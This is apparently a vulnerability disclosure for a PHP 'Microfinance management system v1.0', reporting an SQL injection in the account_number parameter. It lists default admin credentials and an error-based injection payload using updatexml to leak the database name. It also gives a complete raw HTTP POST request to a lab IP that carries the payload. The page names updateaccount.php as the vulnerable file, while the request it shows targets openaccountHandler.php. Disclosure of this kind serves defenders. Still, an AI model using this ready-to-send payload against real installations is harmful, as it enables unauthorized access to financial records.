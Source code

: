 # Microfinance management system v1.0 - SQL injection

### username:admin password:123456 ----> {ip}/login.php

Supplier:https://www.sourcecodester.com/php/14822/microfinance-management-system.html

 /updateaccount.php has SQL injection

Payload:account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

SQL injection because 'account_ number' parameter can be controlled

```
POST /cms001/app/openaccountHandler.php HTTP/1.1
Host: 192.168.0.196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4476.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Origin: http://192.168.0.196
Connection: close
Referer: http://192.168.0.196/cms001/updateaccount.php
Cookie: PHPSESSID=jl7s46ab2lmjcsjbb8ihlu3kq2
Upgrade-Insecure-Requests: 1

account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+=&customer=Select+one&account_type=Select+one&account_status=Select+one&update_account=
```

![1](/Users/sqlmap/Documents/GitHub/vul-report/img/1.png)

![3](/Users/sqlmap/Documents/GitHub/vul-report/img/3.png)

![2](/Users/sqlmap/Documents/GitHub/vul-report/img/2.png)